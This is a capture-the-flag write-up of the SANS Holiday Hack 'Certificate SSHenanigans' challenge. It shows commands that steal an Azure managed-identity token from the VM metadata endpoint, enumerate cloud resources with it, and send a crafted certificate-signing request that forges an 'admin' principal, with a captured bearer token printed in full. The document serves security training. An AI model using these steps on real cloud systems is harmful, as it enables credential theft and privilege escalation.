

# Certificate SSHenanigans

**Difficulty**: :material-pine-tree-variant::material-pine-tree-variant::material-pine-tree-variant::material-pine-tree-variant::material-pine-tree-variant:<br/>
**Direct link**: [Generate a certificate at northpole-ssh-certs](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) and ssh onto `ssh-server-vm.santaworkshopgeeseislands.org`

## Objective

!!! question "Request"
    Go to Pixel Island and review Alabaster Snowball's new SSH certificate configuration and Azure [Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl). What type of cookie cache is Alabaster planning to implement?

??? quote "Alabaster Snowball"
    Hello there! Alabaster Snowball at your service.<br/>
    I could use your help with my fancy new Azure server at ssh-server-vm.santaworkshopgeeseislands.org.<br/>
    ChatNPT suggested I upgrade the host to use SSH certificates, such a great idea!<br/>
    It even generated ready-to-deploy code for an Azure Function App so elves can request their own certificates. What a timesaver!<br/>
    I'm a little wary though. I'd appreciate it if you could take a peek and confirm everything's secure before I deploy this configuration to all the Geese Islands servers.<br/>
    Generate yourself a certificate and use the monitor account to access the host. See if you can grab my TODO list.<br/>
    If you haven't heard of SSH certificates, Thomas Bouve gave an introductory talk and demo on that topic recently.<br/>
    Oh, and if you need to peek at the Function App code, there's a handy Azure REST API endpoint which will give you details about how the Function App is deployed.

## Hints

??? tip "Azure Function App Source Code"
    The [get-source-control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control) Azure REST API endpoint provides details about where an Azure Web App or Function App is deployed from.

??? tip "Azure VM Access Token"
    Azure CLI tools aren't always available, but if you're on an Azure VM you can always use the [Azure REST API](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token) instead.

??? tip "SSH Certificates Talk"
    Check out Thomas Bouve's [talk and demo](https://youtu.be/4S0Rniyidt4) to learn all about how you can upgrade your SSH server configuration to leverage SSH certificates.

## Solution

Before we can SSH onto the machine, we need to generate a certificate. I'm a fan of [GitHub's guide](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent), but we don't really need to worry aobut security in this case, so just run:
```bash
$ ssh-keygen -C <your SHH handle>
```
Don't set a passphrase and save the file in your local directory as `shh`.

Normally you'd need to copy the public key onto the server so that it can verify you, but as Thomas Bouve's talk notes, this is time-consuming and tedious and can be replaced by key-signing. So copy
the contents of `ssh.pub` into [the Azure Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl).

The output should look something like:



Copy the "ssh_cert" value into `ssh.pub` (**without the ending space**) and save the file.

We can then connect to the `monitor` account as Alabaster requested:
```bash
$ ssh -o "IdentitiesOnly=yes" -i shh monitor@ssh-server-vm.santaworkshopgeeseislands.org
```

Several previous Holiday Hack challenges have involved fetching metadata from 169.254.169.254 and we know this is on Azure, so let's see if we can find anything about that.
[The second hint links to this page on getting an access token](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token#get-a-token-using-http):

```bash
$ curl "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" --header "Metadata:true"
{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6IjVCM25SeHRRN2ppOGVORGMzRnkwNUtmOTdaRSIsImtpZCI6IjVCM25SeHRRN2ppOGVORGMzRnkwNUtmOTdaRSJ9.eyJhdWQiOiJodHRwczovL21hbmFnZW1lbnQuYXp1cmUuY29tLyIsImlzcyI6Imh0dHBzOi8vc3RzLndpbmRvd3MubmV0LzkwYTM4ZWRhLTQwMDYtNGRkNS05MjRjLTZjYTU1Y2FjYzE0ZC8iLCJpYXQiOjE3MDM4OTY1MDIsIm5iZiI6MTcwMzg5NjUwMiwiZXhwIjoxNzAzOTgzMjAyLCJhaW8iOiJFMlZnWU9EMjZpcjVzZTVYYmNlYW5xWmpjLy9mQXdBPSIsImFwcGlkIjoiYjg0ZTA2ZDMtYWJhMS00YmNjLTk2MjYtMmUwZDc2Y2JhMmNlIiwiYXBwaWRhY3IiOiIyIiwiaWRwIjoiaHR0cHM6Ly9zdHMud2luZG93cy5uZXQvOTBhMzhlZGEtNDAwNi00ZGQ1LTkyNGMtNmNhNTVjYWNjMTRkLyIsImlkdHlwIjoiYXBwIiwib2lkIjoiNjAwYTNiYzgtN2UyYy00NGU1LThhMjctMThjM2ViOTYzMDYwIiwicmgiOiIwLkFGRUEybzZqa0FaQTFVMlNUR3lsWEt6QlRVWklmM2tBdXRkUHVrUGF3ZmoyTUJQUUFBQS4iLCJzdWIiOiI2MDBhM2JjOC03ZTJjLTQ0ZTUtOGEyNy0xOGMzZWI5NjMwNjAiLCJ0aWQiOiI5MGEzOGVkYS00MDA2LTRkZDUtOTI0Yy02Y2E1NWNhY2MxNGQiLCJ1dGkiOiIxM0ZKdWdsVWpreWJBU1RPajhEakJRIiwidmVyIjoiMS4wIiwieG1zX2F6X3JpZCI6Ii9zdWJzY3JpcHRpb25zLzJiMDk0MmYzLTliY2EtNDg0Yi1hNTA4LWFiZGFlMmRiNWU2NC9yZXNvdXJjZWdyb3Vwcy9ub3J0aHBvbGUtcmcxL3Byb3ZpZGVycy9NaWNyb3NvZnQuQ29tcHV0ZS92aXJ0dWFsTWFjaGluZXMvc3NoLXNlcnZlci12bSIsInhtc19jYWUiOiIxIiwieG1zX21pcmlkIjoiL3N1YnNjcmlwdGlvbnMvMmIwOTQyZjMtOWJjYS00ODRiLWE1MDgtYWJkYWUyZGI1ZTY0L3Jlc291cmNlZ3JvdXBzL25vcnRocG9sZS1yZzEvcHJvdmlkZXJzL01pY3Jvc29mdC5NYW5hZ2VkSWRlbnRpdHkvdXNlckFzc2lnbmVkSWRlbnRpdGllcy9ub3J0aHBvbGUtc3NoLXNlcnZlci1pZGVudGl0eSIsInhtc190Y2R0IjoxNjk4NDE3NTU3fQ.I8RIr3_mMtkoRr7_7M91osZt_mZI-2ugC-zl2iuixSJhsVQgOcF-YJlZoHdcnCWuu0EmZHLHqjtoQnz1tFuHfg8ecmPOfpiRk4Ah57mU2Y_c92FQyl9se1TZETX1Titt15UsM-xa5iWuMcLQAyQHLs95hEUJS3I98pqPYKyzOfzaw5rXxuzWdD5lioyyHevvEgQgoWTmWbTeNM7Y0UKXJow6gCKnJmhdRECAg3dkrcCj_VcJeYdR1Z8gzjCSTEl6DHX8wJny6s-Gl1GciLm5XxaFrVMBhXzvVA6JPntg_gRuN1-j_tgK5yvdfOtU0XNLu_AlTaR8xTSRZ-R23PqBfg","client_id":"b84e06d3-aba1-4bcc-9626-2e0d76cba2ce","expires_in":"85187","expires_on":"1703983202","ext_expires_in":"86399","not_before":"1703896502","resource":"https://management.azure.com/","token_type":"Bearer"}
```

!!! important
    I'll just `jq` to make future output easier to read. The access token will expire, so you will need to run the above command and then `export at="<THE ACCESS_TOKEN VALUE ABOVE>` for the following commands to work.

Our first hint refers to the URL `https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Web/sites/{name}/sourcecontrols/web?api-version=2022-03-01`, so we now have the authentication token for that and just need:

* the subscriptionId
* the resourceGroupName
* the site name

### Finding the Subscription ID

To find the subscription ID, we probably want to list the subscriptions we have access to. Googling "Azure REST API get subscriptions" takes us to [this page](https://learn.microsoft.com/en-us/rest/api/resources/subscriptions/list?view=rest-resources-2022-12-01&tabs=HTTP), and we have everything we need to make that request so let's go ahead and do that:

```bash
$ curl "https://management.azure.com/subscriptions?api-version=2022-12-01" --header "Authorization: Bearer $at" | jq
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   245  100   245    0     0    675      0 --:--:-- --:--:-- --:--:--   674
{
  "value": [
    {
      "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64",
      "authorizationSource": "RoleBased",
      "managedByTenants": [],
      "tags": {
        "sans:application_owner": "SANS:R&D",
        "finance:business_unit": "curriculum"
      },
      "subscriptionId": "2b0942f3-9bca-484b-a508-abdae2db5e64",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "displayName": "sans-hhc",
      "state": "Enabled",
      "subscriptionPolicies": {
        "locationPlacementId": "Public_2014-09-01",
        "quotaId": "EnterpriseAgreement_2014-09-01",
        "spendingLimit": "Off"
      }
    }
  ],
  "count": {
    "type": "Total",
    "value": 1
  }
}
```

So the subscription ID is: `2b0942f3-9bca-484b-a508-abdae2db5e64`

### Finding the Resource Group Name

Googling for "Azure REST API list resource groups" finds [this page](https://learn.microsoft.com/en-us/rest/api/resources/resource-groups/list?view=rest-resources-2021-04-01) which we also now have everything we need to run:

```bash
$ curl "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourcegroups?api-version=2021-04-01" --header "Authorization: Bearer $at" | jq
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   245  100   245    0     0    675      0 --:--:-- --:--:-- --:--:--   674
{
  "value": [
    {
      "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1",
      "name": "northpole-rg1",
      "type": "Microsoft.Resources/resourceGroups",
      "location": "eastus",
      "tags": {},
      "properties": {
        "provisioningState": "Succeeded"
      }
    }
  ]
}
```

So the resource group name is `northpole-rg1`

### Finding the Site Name

It doesn't seem like there's a REST API for getting the site name, it might just be the hostname: `northpole-ssh-certs-fa`, so let's try that and revisit if it doesn't work...

### Getting the Source

Now we can run the command from the hint
```bash
$ curl "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01" --header "Authorization: Bearer $at" | jq
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   982  100   982    0     0   1641      0 --:--:-- --:--:-- --:--:--  1644
{
  "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web",
  "name": "northpole-ssh-certs-fa",
  "type": "Microsoft.Web/sites/sourcecontrols",
  "location": "East US",
  "tags": {
    "project": "northpole-ssh-certs",
    "create-cert-func-url-path": "/api/create-cert?code=candy-cane-twirl"
  },
  "properties": {
    "repoUrl": "https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa",
    "branch": "main",
    "isManualIntegration": false,
    "isGitHubAction": true,
    "deploymentRollbackEnabled": false,
    "isMercurial": false,
    "provisioningState": "Succeeded",
    "gitHubActionConfiguration": {
      "codeConfiguration": null,
      "containerConfiguration": null,
      "isLinux": true,
      "generateWorkflowFile": true,
      "workflowSettings": {
        "appType": "functionapp",
        "publishType": "code",
        "os": "linux",
        "variables": {
          "runtimeVersion": "3.11"
        },
        "runtimeStack": "python",
        "workflowApiVersion": "2020-12-01",
        "useCanaryFusionServer": false,
        "authType": "publishprofile"
      }
    }
  }
}
```

So the source is a [GitHub repo](https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa). I wonder if that's public...

### Accessing the Source

It is public, and [it seems pretty interesting to me that the principal is barely validated](https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa/blob/main/function_app.py#L45-L54)

### The vulnerability

So when we first requested our certificate to be signed, it gave us a principal of "elf".

??? "Finding the principal"
    It took me a while to figure out what principal I should use; I tried "admin" initially but apparently did something wrong. I then wondered if I should use `alabaster`, or one of the roles from the KQL challenge (eg "Santa Claus", "Vice President Elf" or some variation thereof). It's case sensitive though (which you can confirm by requesting a principal of "Elf" and seeing that you can't login to the monitor account, so it'd be hard to figure it out alone). Fortunately, you can read `/etc/ssh/` which has an `auth_principals` directory:
    ```bash
    monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat alabaster 
    admin
    ```

What happens if we make a new signing request with our original public key but with the additional parameter `principal=admin`?

??? "Use Burp Proxy"
    You can use the repeater to send the following request, but replace my pub_key with yours:
    ```
    POST /api/create-cert?code=candy-cane-twirl HTTP/2
    Host: northpole-ssh-certs-fa.azurewebsites.net
    Content-Length: 604
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
    Content-Type: application/json
    Accept: */*
    Origin: https://northpole-ssh-certs-fa.azurewebsites.net
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
    Priority: u=1, i

    {"ssh_pub_key":"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC+HRlKJhlxwczAkF0IAYkEV0wTRloVrLViSiDRWtXsWkDi232bDr74wyin81D+/uarcvz435iUhJilEWBmczxmTa3oeXPNpuDZPUl+93NAU2IojshdZGZ4gITQ/Qp9oth4SIplgEFN/Ubeuw7YCBMJgnsDz07CuauM6YzyaFHon7QV7CWNv5gg7ITu3YAzT7IiU5U6ExK9nEnCQuEY4WiNce6ma32wXUskuKVdhnckKJUwUs2Tt02fUaoMC7YgQG464JiYdlEuhMXv9ZjQ5vgfNyBiRrEaUgvp+Nl4g/D8qsx/qYp1oTLBgfYNd63Ag2gybwh7e5ZVsKOhWzbtMMYC7SNtjFH4T8q+byGrIXMJSAUUo422IDfW+zGPEnVrcF6GmfQZM4dM0AZs1ViKz9nx8K3yi3229RPIHkjz+3B9v3Zf6zWRT0OYA+rc0GFdgKnTu1ZFBq2LiPwj8a9R1+bW9q9qphjfe3CCW+vPs/AXk1WP0T046KDLUdqacxLCJwM= zysygy.elf",
    "principal": "admin"}
    ```

    Regenerate a public-private keypair following step 1 if you don't have a copy of your original cert.

Like we did in the first step, we can simply copy the newly signed certificate into our public key and connect to alabaster's account:

```bash
$ ssh -o "IdentitiesOnly=yes" -i shh alabaster@ssh-server-vm.santaworkshopgeeseislands.org
alabaster@ssh-server-vm:/etc/ssh/auth_principals$ cat alabaster_todo.md 
# Geese Islands IT & Security Todo List

- [X] Sleigh GPS Upgrade: Integrate the new "Island Hopper" module into Santa's sleigh GPS. Ensure Rudolph's red nose doesn't interfere with the signal.
- [X] Reindeer Wi-Fi Antlers: Test out the new Wi-Fi boosting antler extensions on Dasher and Dancer. Perfect for those beach-side internet browsing sessions.
- [ ] Palm Tree Server Cooling: Make use of the island's natural shade. Relocate servers under palm trees for optimal cooling. Remember to watch out for falling coconuts!
- [ ] Eggnog Firewall: Upgrade the North Pole's firewall to the new EggnogOS version. Ensure it blocks any Grinch-related cyber threats effectively.
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times. Don't let Santa eat the cache!
- [ ] Toy Workshop VPN: Establish a secure VPN tunnel back to the main toy workshop so the elves can securely access to the toy blueprints.
- [ ] Festive 2FA: Roll out the new two-factor authentication system where the second factor is singing a Christmas carol. Jingle Bells is said to be the most secure.
```

!!! success "Answer"
    Gingerbread

## Response

!!! quote "Alabaster Snowball"
    Oh my! I was so focused on the SSH configuration I completely missed the vulnerability in the Azure Function App.<br/>
    Why would ChatNPT generate code with such a glaring vulnerability? It's almost like it wanted my system to be unsafe. Could ChatNPT be evil?<br/>
    Thanks for the help, I'll go and update the application code immediately!<br/>
    While we're on the topic of certificates, did you know Active Directory (AD) uses them as well? Apparently the service used to manage them can have misconfigurations too.<br/>
    You might be wondering about that SatTrackr tool I've installed on the monitor account?<br/>
    Here's the thing, on my nightly stargazing adventures I started noticing the same satellite above Geese Islands.<br/>
    I wrote that satellite tracker tool to collect some additional data and sure enough, it's in a geostationary orbit above us.<br/>
    No idea what that means yet, but I'm keeping a close eye on that thing!